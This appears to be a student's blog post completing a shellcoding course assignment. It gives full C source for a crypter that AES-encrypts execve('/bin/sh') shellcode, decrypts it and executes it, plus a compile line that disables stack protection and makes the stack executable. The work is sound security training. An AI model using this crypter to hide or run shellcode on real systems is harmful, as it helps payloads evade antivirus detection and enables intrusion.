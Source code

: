 ```yaml
---
comments: true
date: 2014-05-12
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
categories:
- programming
- SLAE
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

	
  2. Free to use any existing encryption schema

	
  3. Can use any programming language


I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

```c
    //Description:	Assignment #7 (PoC of Crypter using AES-256)
    //Author: 		Paolo Stivanin <https://github.com/polslinux>
    //SLAE ID:		526
    
    #include <stdio.h>
    #include <string.h>
    #include <gcrypt.h>
    #include <stdint.h>
    
    #define ENC 1
    
    static void crypt(int, size_t, uint8_t *);
    
    uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";
    #if !ENC
    	uint8_t encShell[] = "";
    #endif
    uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
    uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
    const char *key = "securitytubeSLAE";
    
    int main(void){
    	int i, ag = gcry_cipher_map_name("aes256");
    	size_t ln = strlen(origShell);
    	uint8_t *buf = malloc(ln);
    
    	crypt(ag, ln, buf);
    	#if ENC
    		for(i=0; i<ln; i++){
    			printf("\\x%02x", buf[i]);
    		}
    		printf("\n");
    	#else
    		int (*ret)() = (int(*)())buf;
    		ret();
    	#endif
    
    	free(buf);
    
    	return 0;
    }
    
    static void crypt(int algo, size_t len, uint8_t *buf){
    	gcry_cipher_hd_t hd;
    	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
    	gcry_cipher_setkey(hd, key, 16);
    	gcry_cipher_setiv(hd, iv, 16);
    	gcry_cipher_setctr(hd, ctr, 16);
    	#if ENC
    		gcry_cipher_encrypt(hd, buf, len, origShell, len);
    	#else
    		gcry_cipher_decrypt(hd, buf, len, encShell, len);
    	#endif
    	gcry_cipher_close(hd);
    }
```

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
